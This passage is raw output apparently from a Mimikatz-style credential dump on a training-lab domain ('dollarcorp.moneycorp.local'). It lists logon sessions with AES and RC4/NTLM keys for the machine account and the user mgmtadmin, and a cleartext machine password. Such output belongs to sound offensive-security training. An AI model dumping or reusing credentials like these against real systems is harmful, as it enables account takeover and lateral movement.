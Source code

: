 ```powershell
           rc4_hmac_old      b38ff50264b74508085d82c69794a4d8
           rc4_md4           b38ff50264b74508085d82c69794a4d8
           rc4_hmac_nt_exp   b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old_exp  b38ff50264b74508085d82c69794a4d8

Authentication Id : 0 ; 57471 (00000000:0000e07f)
Session           : Service from 0
User Name         : SQLTELEMETRY
Domain            : NT Service
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:51 AM
SID               : S-1-5-80-2652535364-2169709536-2857650723-2622804123-1107741775

         * Username : DCORP-MGMT$
         * Domain   : dollarcorp.moneycorp.local
         * Password : 4?PhChKP(`?yW`E8=VM2QI13O!i*3Q?WVB"X)=>Il3=AczJ0^T!X]r&:&yG41`*/$^4+EeZ07?zF2Z3`:[Jd*F/z_P`p6B9XH^g$*mXIQMXY(Sc?3\A6ICrX
         * Key List :
           aes256_hmac       c71f382ea61f80cab751aada32a477b7f9617f3b4a8628dc1c8757db5fdb5076
           aes128_hmac       b3b9f96ed137fb4c079dcfe2e23f7854
           rc4_hmac_nt       0878da540f45b31b974f73312c18e754
           rc4_hmac_old      0878da540f45b31b974f73312c18e754
           rc4_md4           0878da540f45b31b974f73312c18e754
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : DCORP-MGMT$
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:46 AM
SID               : S-1-5-20

         * Username : dcorp-mgmt$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       b607d794f87ca117a14353da0dbb6f27bbe9fed4f1ce1b810b43fbb9a2eab192
           rc4_hmac_nt       0878da540f45b31b974f73312c18e754
           rc4_hmac_old      0878da540f45b31b974f73312c18e754
           rc4_md4           0878da540f45b31b974f73312c18e754
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754

Authentication Id : 0 ; 6218420 (00000000:005ee2b4)
Session           : RemoteInteractive from 2
User Name         : mgmtadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/11/2025 4:24:18 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1120

         * Username : mgmtadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       902129307ec94942b00c6b9d866c67a2376f596bc9bdcf5f85ea83176f97c3aa
           rc4_hmac_nt       95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_old      95e2cd7ff77379e34c6e46265e75d754
           rc4_md4           95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_nt_exp   95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_old_exp  95e2cd7ff77379e34c6e46265e75d754
```